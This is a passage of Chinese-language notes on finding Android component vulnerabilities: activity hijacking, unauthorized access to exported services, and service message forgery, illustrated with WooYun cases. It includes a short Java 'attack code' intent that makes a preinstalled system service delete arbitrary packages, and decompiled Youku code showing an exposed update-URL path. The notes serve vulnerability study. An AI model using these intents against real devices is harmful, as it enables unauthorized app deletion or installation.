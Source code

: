 ### Activity劫持

对手拦截发送来启动一个基于android的可信活动的隐式intent，并在其位置启动一个假冒活动。然后，恶意活动被用来模拟受信任活动的用户界面，并提示目标输入敏感数据，就像目标正在与受信任活动交互一样。

## Service漏洞挖掘

[参考链接](https://bbs.pediy.com/thread-269255.htm)

### Service非授权访问

导出的service未进行权限设置和调用者身份验证，使得调用者通过调用该service实现非授权访问或权限提升。

[漏洞案例](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2010-0509)

乐phone手机出厂默认包含一个名为jp.aplix.midp.tools的**应用包**。本应用以system权限运行，并向其他应用提供ApkInstaller服务，用来进行对Apk文件的安装和删除。通过向ApkInstaller服务传递构造好的参数，没有声明任何权限的应用即可达到安装和删除任意Package的行为，对系统安全性产生极大影响。

攻击代码：

```java
Intent in = new Intent();
in.setComponent(new ComponentName("jp.aplix.midp.tools","jp.aplix.midp.tools.ApkInstaller"));
in.putExtra("action", "deleteApk");
in.putExtra("pkgName", "xxxxx");
startService(in);
```

### Service消息伪造

service未对intent中的数据进行充分检查，导致接收伪造的恶意消息

[漏洞案例](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-094635)

优酷Android 4.5客户端组件暴露导致第三方应用可以触发其升级过程，同时可以指定升级下载的URL地址，可导致任意应用安装！

组件com.youku.service.push.StartActivityService声明如下，对外暴露：

```xml
<service
    android:label="Youku Push Notifications StartActivityService"
    android:name="com.youku.service.push.StartActivityService"
    android:exported="true"
>
```

该组件对应的代码执行部分如下：

```java
protected void onHandleIntent(Intent intent) {
        Intent v0;
        String v23;
    	// 获取pushMsg数据
        Serializable pushMsg = intent.getSerializableExtra("PushMsg");
        ......
        AppVersionManager.getInstance(Youku.context).showAppAgreementDialog();
    	// 根据pushMsg.type判断执行流程
        switch(pushMsg.type) {
            case 1: {
                goto label_53;
            }
            ......
        }
        ......
    label_53:
        intent.setFlags(876609536);
        intent.setClass(this, UpdateActivity.class);
    	// 从pushMsg.updateurl中获取升级URL
        intent.putExtra("updateurl", pushMsg.updateurl);
```